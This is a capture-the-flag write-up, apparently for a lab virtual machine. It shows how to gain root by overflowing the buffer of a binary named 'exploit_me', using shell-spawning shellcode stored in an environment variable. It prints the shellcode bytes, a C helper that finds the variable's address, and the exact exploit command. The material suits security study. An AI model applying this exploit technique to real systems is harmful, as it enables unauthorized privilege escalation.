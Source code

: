 starting from the writeup1 when we are connected to `zaz` user with `646da671ca01bb5d84dbb5fb2238dc8e`.

there is a different attack we can use on the buffer overflow on the `exploit_me` binary.
instead of using a `ret2libc` attack with system, we can use a shellcode stored in a environment variable.
we will put a shellcode (assembly instructions in hex format, the kind used by any program when loaded in memory) in a environment variable, and redirect the main's return address to the environment variable's address.

shellcode found on https://axcheron.github.io/linux-shellcode-101-from-hell-to-shell/.

```
export code=$(python -c "print('\x90'*8 + '\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80')")`
```

and simple C program to get the address of the environment variable:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) { printf("%p\n", getenv(argv[1])); }
```

`gcc main.c && ./a.out code`: `0xbfffff4b`

we know from the previous writeup that the buffer is 140 bytes long:

```shell
./exploit_me $(python -c 'print "i"*140 + "\x4b\xff\xff\xbf"')
```

and we are root !

